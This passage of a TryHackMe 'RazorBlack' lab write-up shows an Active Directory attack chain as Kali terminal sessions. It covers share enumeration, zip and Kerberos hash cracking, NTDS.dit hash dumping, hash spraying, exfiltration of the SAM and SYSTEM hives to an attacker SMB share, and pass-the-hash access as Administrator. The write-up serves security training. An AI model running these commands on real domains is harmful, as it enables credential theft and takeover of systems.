┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ source ~/Python_venvs/Impacket/bin/activate

┌──(Impacket)─(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ smbpasswd.py sbradley@$TARGET_IP
/home/kali/Python_venvs/Impacket/lib/python3.13/site-packages/impacket/version.py:10: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.11.0 - Copyright 2023 Fortra

===============================================================================
  Warning: This functionality will be deprecated in the next Impacket version  
===============================================================================

Current SMB password: 
New SMB password: 
Retype new SMB password: 
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```

The password was set to `password123`.

Now, we re-check shares and find that we now have access to the `trash` share.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u sbradley -p 'password123' --shares
SMB         10.112.174.117  445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.112.174.117  445    HAVEN-DC         [+] raz0rblack.thm\sbradley:password123 
SMB         10.112.174.117  445    HAVEN-DC         [*] Enumerated shares
SMB         10.112.174.117  445    HAVEN-DC         Share           Permissions     Remark
SMB         10.112.174.117  445    HAVEN-DC         -----           -----------     ------
SMB         10.112.174.117  445    HAVEN-DC         ADMIN$                          Remote Admin
SMB         10.112.174.117  445    HAVEN-DC         C$                              Default share
SMB         10.112.174.117  445    HAVEN-DC         IPC$            READ            Remote IPC
SMB         10.112.174.117  445    HAVEN-DC         NETLOGON        READ            Logon server share 
SMB         10.112.174.117  445    HAVEN-DC         SYSVOL          READ            Logon server share 
SMB         10.112.174.117  445    HAVEN-DC         trash           READ            Files Pending for deletion

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ smbmap -H $TARGET_IP -u sbradley -p password123 --depth 5 -r trash

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.112.174.117:445      Name: 10.112.174.117            Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        trash                                                   READ ONLY       Files Pending for deletion
        ./trash
        dr--r--r--                0 Tue Mar 16 07:01:28 2021    .
        dr--r--r--                0 Tue Mar 16 07:01:28 2021    ..
        fr--r--r--             1340 Thu Feb 25 20:29:05 2021    chat_log_20210222143423.txt
        fr--r--r--         18927164 Tue Mar 16 07:02:20 2021    experiment_gone_wrong.zip
        fr--r--r--               37 Sat Feb 27 20:24:21 2021    sbradley.txt
[*] Closed 1 connections  

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ smbget --user=sbradley%password123 --recursive "smb://$TARGET_IP/trash"
Using domain: WORKGROUP, user: sbradley
Using domain: WORKGROUP, user: sbradley
smb://10.112.174.117/trash/chat_log_20210222143423.txt
Using domain: WORKGROUP, user: sbradley
smb://10.112.174.117/trash/experiment_gone_wrong.zip
Using domain: WORKGROUP, user: sbradley
smb://10.112.174.117/trash/sbradley.txt
Downloaded 18.05MB in 9 seconds

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cat chat_log_20210222143423.txt 
sbradley> Hey Administrator our machine has the newly disclosed vulnerability for Windows Server 2019.
Administrator> What vulnerability??
sbradley> That new CVE-2020-1472 which is called ZeroLogon has released a new PoC.
Administrator> I have given you the last warning. If you exploit this on this Domain Controller as you did previously on our old Ubuntu server with dirtycow, I swear I will kill your WinRM-Access.
sbradley> Hey you won't believe what I am seeing.
Administrator> Now, don't say that you ran the exploit.
sbradley> Yeah, The exploit works great it needs nothing like credentials. Just give it IP and domain name and it resets the Administrator pass to an empty hash.
sbradley> I also used some tools to extract ntds. dit and SYSTEM.hive and transferred it into my box. I love running secretsdump.py on those files and dumped the hash.
Administrator> I am feeling like a new cron has been issued in my body named heart attack which will be executed within the next minute.
Administrator> But, Before I die I will kill your WinRM access..........
sbradley> I have made an encrypted zip containing the ntds.dit and the SYSTEM.hive and uploaded the zip inside the trash share.
sbradley> Hey Administrator are you there ...
sbradley> Administrator .....

The administrator died after this incident.

Press F to pay respects

```

---------------------------------------------------------------------------------------

#### What is the zip file's password?

First we get the hash.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ zip2john experiment_gone_wrong.zip > zip_hash.txt
ver 2.0 efh 5455 efh 7875 experiment_gone_wrong.zip/system.hive PKZIP Encr: TS_chk, cmplen=2941739, decmplen=16281600, crc=BDCCA7E2 ts=591C cs=591c type=8
ver 2.0 efh 5455 efh 7875 experiment_gone_wrong.zip/ntds.dit PKZIP Encr: TS_chk, cmplen=15985077, decmplen=58720256, crc=68037E87 ts=5873 cs=5873 type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
```

Then we crack the hash with John the Ripper.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
electromagnetismo (experiment_gone_wrong.zip)     
1g 0:00:00:01 DONE (2026-08-18 21:08) 0.8264g/s 6932Kp/s 6932Kc/s 6932KC/s elfo2009..ejsa457
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password is `electromagnetismo`.

Answer: `electromagnetismo`

Now we can unpack the zip.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ unzip experiment_gone_wrong.zip 
Archive:  experiment_gone_wrong.zip
[experiment_gone_wrong.zip] system.hive password: 
  inflating: system.hive             
  inflating: ntds.dit   
```

---------------------------------------------------------------------------------------

#### What is Ljudmila's Hash?

We can extract the NTLM-hashes with Impacket's secretsdump and look for Ljudmila's hash.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive -just-dc-ntlm LOCAL > ntlm_hashes.txt

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ grep vetrova ntlm_hashes.txt 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ 
```

But we find no matching hash!?

In fact, the username format and the users are completly different.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ head -n20 ntlm_hashes.txt
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x17a0a12951d502bb3c14cf1d495a71ad
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 84bf0a79cd645db4f94b24c35cfdf7c7
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1afedc472d0fdfe07cd075d36804efd0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HAVEN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:4ea59b8f64c94ec66ddcfc4e6e5899f9:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:703a365974d7c3eeb80e11dd27fb0cb3:::
RAZ0RBLACK\j.smith:4549:aad3b435b51404eeaad3b435b51404ee:da3542420eff7cfab8305a68b7da7043:::
RAZ0RBLACK\j.johnson:4550:aad3b435b51404eeaad3b435b51404ee:c378739d7c136c1281d06183665702ea:::
RAZ0RBLACK\r.williams:4551:aad3b435b51404eeaad3b435b51404ee:9f73aaafc3b6d62acdbb0b426f302f9e:::
RAZ0RBLACK\m.jones:4552:aad3b435b51404eeaad3b435b51404ee:6a5bad944868142e65ad3049a393e587:::
RAZ0RBLACK\w.brown:4553:aad3b435b51404eeaad3b435b51404ee:b112332330f11267486d21549d326bd5:::
RAZ0RBLACK\d.davis:4554:aad3b435b51404eeaad3b435b51404ee:f9b8c9864aa7bc53405ed45b48ef19ef:::
RAZ0RBLACK\r.miller:4555:aad3b435b51404eeaad3b435b51404ee:efe1e7cd1799ef6dff3c85b36239ef17:::
RAZ0RBLACK\c.wilson:4556:aad3b435b51404eeaad3b435b51404ee:4104dd2ede9c241eb18bda7470310d91:::
RAZ0RBLACK\j.moore:4557:aad3b435b51404eeaad3b435b51404ee:d1d85bdc244f5d7185bcff43eea3ab53:::
```

But maybe we can find a matching hash after all.

We extract only the hashes.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cat ntlm_hashes.txt | grep ':::' | cut -d ':' -f4 > ntlm_hashes_2.txt
```

And then search among all the hashes for a match.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc smb $TARGET_IP -u lvetrova -H ntlm_hashes_2.txt     
SMB         10.112.174.117  445    HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:1afedc472d0fdfe07cd075d36804efd0 STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:4ea59b8f64c94ec66ddcfc4e6e5899f9 STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:703a365974d7c3eeb80e11dd27fb0cb3 STATUS_LOGON_FAILURE 
<---snip--->
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:42263cad4fc3f45816c340e684e2592a STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:7b8b14a73d8a45249de2f5b0c225d515 STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:081af9630677a387f6f0a9bb17852602 STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:c184a72ed800899bc1ff633778a89b5e STATUS_LOGON_FAILURE 
SMB         10.112.174.117  445    HAVEN-DC         [+] raz0rblack.thm\lvetrova:f220d3988deb3f516c73f40ee16c431d 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ nxc winrm $TARGET_IP -u lvetrova -H f220d3988deb3f516c73f40ee16c431d
WINRM       10.112.174.117  5985   HAVEN-DC         [*] Windows 10 / Server 2019 Build 17763 (name:HAVEN-DC) (domain:raz0rblack.thm) 
WINRM       10.112.174.117  5985   HAVEN-DC         [+] raz0rblack.thm\lvetrova:f220d3988deb3f516c73f40ee16c431d (Pwn3d!)
```

Access verified!

Answer: `f220d3988deb3f516c73f40ee16c431d`

---------------------------------------------------------------------------------------

#### What is Ljudmila's Flag?

Let's use evil-winrm to connect as `lvetrova` and search for the flag.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ evil-winrm -i $TARGET_IP -u lvetrova -H f220d3988deb3f516c73f40ee16c431d
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lvetrova\Documents> dir
*Evil-WinRM* PS C:\Users\lvetrova\Documents> ls
*Evil-WinRM* PS C:\Users\lvetrova\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\lvetrova\Desktop> ls
*Evil-WinRM* PS C:\Users\lvetrova\Desktop> cd ..
*Evil-WinRM* PS C:\Users\lvetrova> ls


    Directory: C:\Users\lvetrova


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021  10:14 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
-a----        2/25/2021  10:16 AM           1692 lvetrova.xml


*Evil-WinRM* PS C:\Users\lvetrova> Get-Content lvetrova.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Your Flag is here =&gt;</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000009db56a0543f441469fc81aadb02945d20000000002000000000003660000c000000010000000069a026f82c590fa867556fe4495ca870000000004800000a0000000100000003b5bf64299ad06afde3fc9d6efe72d35500000002828ad79f53f3f38ceb3d8a8c41179a54dc94cab7b17ba52d0b9fc62dfd4a205f2bba2688e8e67e5cbc6d6584496d107b4307469b95eb3fdfd855abe27334a5fe32a8b35a3a0b6424081e14dc387902414000000e6e36273726b3c093bbbb4e976392a874772576d</SS>
    </Props>
  </Obj>
</Objs>
*Evil-WinRM* PS C:\Users\lvetrova> 
```

We get the flag as follows:

```powershell
*Evil-WinRM* PS C:\Users\lvetrova> $creds = Import-Clixml -Path .\lvetrova.xml
*Evil-WinRM* PS C:\Users\lvetrova> $creds

UserName                                 Password
--------                                 --------
Your Flag is here => System.Security.SecureString


*Evil-WinRM* PS C:\Users\lvetrova> $creds.GetNetworkCredential().password
THM{<REDACTED>}
*Evil-WinRM* PS C:\Users\lvetrova> 
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------------------

#### What is Xyan1d3's password?

Our next target is the `Xyan1d3`.

So far we haven't tried Kerberoasting, so let's try that.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ impacket-GetUserSPNs -dc-ip $TARGET_IP -outputfile tgtrep_hashes.txt raz0rblack.thm/twilliams:roastpotatoes           
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName                   Name     MemberOf                                                    PasswordLastSet             LastLogon  Delegation 
-------------------------------------  -------  ----------------------------------------------------------  --------------------------  ---------  ----------
HAVEN-DC/xyan1d3.raz0rblack.thm:60111  xyan1d3  CN=Remote Management Users,CN=Builtin,DC=raz0rblack,DC=thm  2021-02-23 16:17:17.715160  <never>               


[-] CCache file is not found. Skipping...
```

We then use hashcat to crack the hash.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ hashcat -m 13100 tgtrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-4790 CPU @ 3.60GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/xyan1d3*$41b2bd17828978761037be66e6de9322$70c2b7f7b9b724d0baf43b1d9da93a80130f6f1efb0d351933e200240ac0c8009ee86e35f33a99091f6d2124c457c0e73c2ac01eb8ab80252f0213e9ae14d2f9f028e7874a4795d7b383b0674430caf4443c8ae9e934f5ad6583eb1b061e50a9938aaefc116c929dbcc1720738af0eda1040581cbbba32f70b1c519c10a3c20020615f8118b8c8ebf81b3703a1dc5800ee71798fc46098a262926191c986fd44e3f139799cb22e9cc9540bd78f1ad9a10fb089f2c147a48b7cb0762a2031365d2c1e86f69990745fab225a930fa37c3c857d1c63446f5745bdb2e49bee16be51bfc5623d33bde077e395df86491dbecea4a151764bb3d9aead3a0bff57e14330a99e802c01d1f14856d245435d42cb44e7f44b6a2a85cc562f69d3e13b774cd1fd9071804678279cbb56849736c9e09f944557c75aa1a0d31d8b3209b871e69a65d0a395e1dcf35989afe670223ffc1e5ea4d6e06926eb4c946d37293536c868ab3fe60822a20228b9e296fe228a5c22e86bef8dc7b33b6bba2a08cf1ca6ef86bb43b9bcba81628eca0bd6e97b5e4de59bdc58fdf5d24e79593cb75fa4332a24f263a5e6a15b3703934257610fa4055cc6e5d03abe12648a109672a45f1d7b54da3f808df42f2130c363fc156eeb3dceefca395ee510203a68fd1de17d46de3b568046b7e4683e66e319bb292e72d68461dd0b05ce18d8190f8b75bff968ce7fd4c9d8823acab1cf69cd3cbfdb40a0646cd97e4bf076ebb29fcea259531d7e631ffa387f4b45f6b2a5b22799c51589bd98aa38162f80aefd2aa61ffcb8b4266a7ca6fdea1d37a7d15955a8c3d3dee65885a1a0fbcb73013c9883185fa3620ecfb82c24b047a7bab7b730c6e30794a55b0df44dd849d5710976e11a7df09be0d642a5c77e0e9e38fdcf4a9e477ec9729956a5ac5a726b3a9aaa9ca37ca8104b81bb929602f747cf41390c06ac7defec7fece5d1649c4a7fc2643166ba9fa1c9eb3cc84e116991d9442dc89b6f59afbf94c77bc079da50ff0123745237cde9641ad5508377fd852a7bf3cebd3c5e0be65c2cd7fb26098a09f217d537e7dd01a3521fa29b2147d39ea39a14467a906d0394a01bc4ac1f765f987e00287bac0d24a40e0aefb8c3b5aef4d42c576b4dfa5697b847968b6cbe9d36e05b5bc0df9ce8a30d2307249056e7b4ca5f53999360c078358efbf698e39e98b6886f723bf3cc3c284b69463619b5804bcd5de6ec0b25afce9dbf683f786b471de77babb5669058ade0683b8357f61bec46d0443ff4881151b2ffa20875d52290f7d62bd765a689fda99bdadc2300941471bd89cd2db0b1507e6eda873b86ccdf1ffcede794fb29b8696fa69a5f5eea1cefe56ed3f174c02c51f14dbd5ab6dfdab8654da66d453c0d0b6685b8bba01ff2e4ecb6882716bd:cyanide9amine5628
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/...2716bd
Time.Started.....: Wed Aug 19 09:49:50 2026 (9 secs)
Time.Estimated...: Wed Aug 19 09:49:59 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1341.3 kH/s (1.22ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8867840/14344385 (61.82%)
Rejected.........: 0/8867840 (0.00%)
Restore.Point....: 8863744/14344385 (61.79%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: cynthia73 -> cy4ever
Hardware.Mon.#1..: Util: 57%

Started: Wed Aug 19 09:49:44 2026
Stopped: Wed Aug 19 09:50:01 2026
```

Answer: `cyanide9amine5628`

---------------------------------------------------------------------------------------

#### What is Xyan1d3's Flag?

We can connect with evil-winrm as before.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ evil-winrm -i $TARGET_IP -u xyan1d3 -p cyanide9amine5628               
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> dir
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\xyan1d3\Desktop> dir
*Evil-WinRM* PS C:\Users\xyan1d3\Desktop> cd ..
*Evil-WinRM* PS C:\Users\xyan1d3> dir


    Directory: C:\Users\xyan1d3


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/15/2018  12:19 AM                Desktop
d-r---        2/25/2021   9:34 AM                Documents
d-r---        9/15/2018  12:19 AM                Downloads
d-r---        9/15/2018  12:19 AM                Favorites
d-r---        9/15/2018  12:19 AM                Links
d-r---        9/15/2018  12:19 AM                Music
d-r---        9/15/2018  12:19 AM                Pictures
d-----        9/15/2018  12:19 AM                Saved Games
d-r---        9/15/2018  12:19 AM                Videos
-a----        2/25/2021   9:33 AM           1826 xyan1d3.xml


*Evil-WinRM* PS C:\Users\xyan1d3> Get-Content xyan1d3.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">Nope your flag is not here</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb010000006bc3424112257a48aa7937963e14ed790000000002000000000003660000c000000010000000f098beb903e1a489eed98b779f3c70b80000000004800000a000000010000000e59705c44a560ce4c53e837d111bb39970000000feda9c94c6cd1687ffded5f438c59b080362e7e2fe0d9be8d2ab96ec7895303d167d5b38ce255ac6c01d7ac510ef662e48c53d3c89645053599c00d9e8a15598e8109d23a91a8663f886de1ba405806944f3f7e7df84091af0c73a4effac97ad05a3d6822cdeb06d4f415ba19587574f1400000051021e80fd5264d9730df52d2567cd7285726da2</SS>
    </Props>
  </Obj>
</Objs>
*Evil-WinRM* PS C:\Users\xyan1d3> 
```

Ah, same procedure as last time.

```powershell
*Evil-WinRM* PS C:\Users\xyan1d3> $creds = Import-CliXml -Path xyan1d3.xml
*Evil-WinRM* PS C:\Users\xyan1d3> $creds.GetNetworkCredential().password
LOL here it is -> THM{<REDACTED>}
*Evil-WinRM* PS C:\Users\xyan1d3> 
```

Answer: `THM{<REDACTED>}`

---------------------------------------------------------------------------------------

Next, we enumerate the system for privilege escalation opportunities.

First, we check our privileges.

```powershell
*Evil-WinRM* PS C:\Users\xyan1d3> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\xyan1d3> 
```

We have `SeBackupPrivilege` privilege and can read any file on the system.

One of the easiest ways to get the Administrator's NTLM-hash is from the SAM + SYSTEM registry hives.

So we set up a SMB share at our Kali machine.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ mkdir smb_share                                                                                  

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ impacket-smbserver share smb_share -smb2support -username user -password secret                  
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

```

Them we save the registry hives we need to the share.

```powershell
*Evil-WinRM* PS C:\Users\xyan1d3\Documents> net use \\192.168.152.166\share /user:user secret
The command completed successfully.

*Evil-WinRM* PS C:\Users\xyan1d3\Documents> reg.exe save HKLM\SAM \\192.168.152.166\share\sam.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\xyan1d3\Documents> reg.exe save HKLM\SYSTEM \\192.168.152.166\share\system.bak
The operation completed successfully.

*Evil-WinRM* PS C:\Users\xyan1d3\Documents> 
```

Now we can extract the hashes back at our Kali machine.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ cd smb_share 

┌──(kali㉿kali)-[/mnt/…/Challenges/Medium/RazorBlack/smb_share]
└─$ impacket-secretsdump -sam sam.bak -system system.bak LOCAL                              
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xf1582a79dd00631b701d3d15e75e59f6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9689931bed40ca5a2ce1218210177f0c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```

And now we can connect as the Administrator.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Medium/RazorBlack]
└─$ evil-winrm -i $TARGET_IP -u Administrator -H 9689931bed40ca5a2ce1218210177f0c
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/21/2021   9:45 AM                3D Objects
d-r---        5/21/2021   9:45 AM                Contacts
d-r---        5/21/2021   9:45 AM                Desktop
d-r---        5/21/2021   9:45 AM                Documents
d-r---        5/21/2021   9:45 AM                Downloads
d-r---        5/21/2021   9:45 AM                Favorites
d-r---        5/21/2021   9:45 AM                Links
d-r---        5/21/2021   9:45 AM                Music
d-r---        5/21/2021   9:45 AM                Pictures
d-r---        5/21/2021   9:45 AM                Saved Games
d-r---        5/21/2021   9:45 AM                Searches
d-r---        5/21/2021   9:45 AM                Videos
-a----        2/25/2021   1:08 PM            290 cookie.json
-a----        2/25/2021   1:12 PM           2512 root.xml


*Evil-WinRM* PS C:\Users\Administrator> 
```

---------------------------------------------------------------------------------------

#### What is the root Flag?

If we try to get the root flag in a similar way as before, we fail.

```powershell
*Evil-WinRM* PS C:\Users\Administrator> $creds = Import-CliXml -Path root.xml
The data is invalid.

At line:1 char:10
+ $creds = Import-CliXml -Path root.xml
+          ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Import-Clixml], CryptographicException
    + FullyQualifiedErrorId : System.Security.Cryptography.CryptographicException,Microsoft.PowerShell.Commands.ImportClixmlCommand
*Evil-WinRM* PS C:\Users\Administrator> get-Content root.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
